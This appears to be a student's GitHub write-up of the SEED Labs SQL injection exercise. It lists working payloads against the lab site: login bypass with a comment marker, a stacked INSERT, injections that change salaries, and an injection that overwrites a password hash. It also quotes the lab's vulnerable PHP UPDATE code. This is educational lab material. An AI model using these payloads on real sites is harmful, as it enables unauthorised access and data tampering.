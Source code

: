 # SQLInjection
### Task 1:
	Log in MYSQL:
//code
		mysql -u root -pseedubuntu
    
		mysql> use Users;
    
		mysql> show tables;
    
	Use such a SQL query:
//code
		select * from credential where Name='Alice';
https://github.com/abdul9255/SQLInjection/blob/main/task%201.png

### Task 2:
--> Task 2.1
	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
//code
		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
    
--> Task 2.2
	1- Write Code on Terminator in Seed Lab:
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4. Run this location on browser
  
https://github.com/abdul9255/SQLInjection/blob/main/task%202.2.png

--> Task 2.3	
	inject statment to append a row to current database:
//code	
	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
  
	After row inserted, go to browser and input as:
  
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
  
	.PASSWORD: "" (blank field)
  
https://github.com/abdul9255/SQLInjection/blob/main/task2.3.png

(optional lines)
	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1
	1- Login as Username= 'Alice' && Password = xyz, 
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2
	1- Login as Username= 'Boby' #' and then open edit profile
	2- Update Phone Number: ',Salary=0 and remaining unchanges
  
https://github.com/abdul9255/SQLInjection/blob/main/task%203.2.png

	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
--> Task 3.3
	We're login as Boby but change password of Alice
//backend code
	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();

Updation will be on Phone Number field;
Let Boby password as '123'. We must get SHA1 value of new password via some tool as:
	c0b656d5e415ca1a8e098a408f913ec229e120b6
Constuct Phone Number:
	', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
Save it and changes works accordingly. 

https://github.com/abdul9255/SQLInjection/blob/main/task3.3.png
